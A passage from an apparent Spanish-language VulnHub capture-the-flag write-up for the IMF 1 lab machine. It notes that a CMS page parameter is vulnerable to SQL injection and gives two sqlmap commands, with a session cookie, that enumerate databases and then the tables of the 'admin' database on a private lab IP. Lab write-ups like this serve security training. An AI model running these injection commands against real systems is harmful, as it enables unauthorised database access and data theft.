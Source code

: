 Es por tanto susceptible a SQLi.

![alt text](/assets/img/writeups/vulnhub/imf1/image-10.png)

```bash
sqlmap -u "http://192.168.100.98/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=qmbhopabov8a6qco31fbe5vuc2" --batch --dbs
```

![alt text](/assets/img/writeups/vulnhub/imf1/image-11.png)

Obtenemos las tablas de la base de datos.

```bash
sqlmap -u "http://192.168.100.98/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=qmbhopabov8a6qco31fbe5vuc2" --batch -D admin --tables
```

![alt text](/assets/img/writeups/vulnhub/imf1/image-12.png)
